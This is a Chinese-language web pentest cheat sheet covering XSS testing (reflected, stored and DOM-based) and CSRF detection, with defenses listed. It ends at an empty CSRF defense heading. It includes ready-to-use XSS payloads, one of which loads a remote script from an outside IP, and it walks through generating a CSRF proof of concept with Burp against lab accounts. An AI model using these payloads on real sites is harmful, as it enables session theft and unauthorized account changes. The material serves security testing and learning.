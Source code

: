 # 跨站脚本攻击（xss）

## 反射性

对提交页面的各个参数依次进行xss注入测试，判定是否存在xss漏洞，如`?phone=176"><script>alert(/xxx/)</script><!--&id=1&name=2`

## 储存型

在页面表单提交过程中，依次对提交参数进行xss测试，常见位置如居住地址，机器人客服。

## 常用测试语句

```html
'><script>alert(/xxx/)</script><!--
" onerror=alert(/xxx/) t="
" onmousemove=alert(/xxx/) t="
'><img src=123# onerror=alert(1)>
'><iframe src=http://www.baidu.com><'
</textarea><script>alert(123)</script><!--		存储型
```

## DOM型

```html
'><script>var src=document.createElement('script');src.setAttribute('src','http://169.254.115.76/test.js');document.body.appendChild(src);</script>		远程调用test.jsp:alert(/xss/);脚本
```

常见位置`http://test.com/index.html?1);var src=document.createElement('script');src.setAttribute('src','http://169.254.115.76/test.js');document.body.appendChild(src);(1`

## 防御方法

- 配置CSP
- cookie设置http only
- 对特殊符号进行HTML实体编码`& < > " ' / \ ; [ ] ( )`

# 跨站请求伪造（csrf）

## 检测方式

查看页面对所提交的参数中是否包含唯一性token信息或验证来源页referer头。如果不存在参数，则有csrf漏洞。如果存在参数，删除referer头信息并多次重放，查看是否执行成功，如添加账号、修改个人信息、修改密码、转账，如果成功，则有csrf漏洞。

首先用火狐登录vince账户，抓到修改邮箱的数据包，放到repeater，右键Engagement tools->Generate CSRF POC->test in browser->copy，用谷歌登录allen账户，挂bp代理用谷歌打开复制的网址，Submit request，成功修改allen邮箱为vince邮箱

## 防御方法
